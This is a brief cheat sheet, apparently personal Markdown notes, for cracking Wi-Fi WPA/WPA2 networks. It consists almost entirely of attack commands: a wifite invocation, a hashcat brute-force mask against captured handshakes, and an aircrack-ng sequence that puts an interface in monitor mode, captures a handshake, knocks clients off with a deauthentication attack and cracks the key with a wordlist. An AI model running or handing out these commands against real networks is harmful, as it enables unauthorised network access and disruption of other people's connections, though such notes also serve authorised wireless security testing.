 
# WEF
https://github.com/D3Ext/WEF

# Wifite
sudo wifite -mac --skip-crack --clients-only -wpa --no-wps --no-pmkid

https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2

https://hashcat.net/cap2hccapx

hashcat.exe -m 22000 HASHFILE -a 3 ?d?d?d?d?d?d?d?d?d

# The old way
```bash
airmon-ng check
airmon-ng check kill
airmon-ng start INTERFACE
airodump-ng INTERFACE
airodump-ng INTERFACE --bssid APMAC -c CHANNEL -w CAPFILE
aireplay-ng INTERFACE --deauth 20 -a APMAC -h CLIENTMAC
aircrack-ng -w WORDLIST CAPFILE
airmon-ng stop INTERFACE
systemctl start network-manager
```
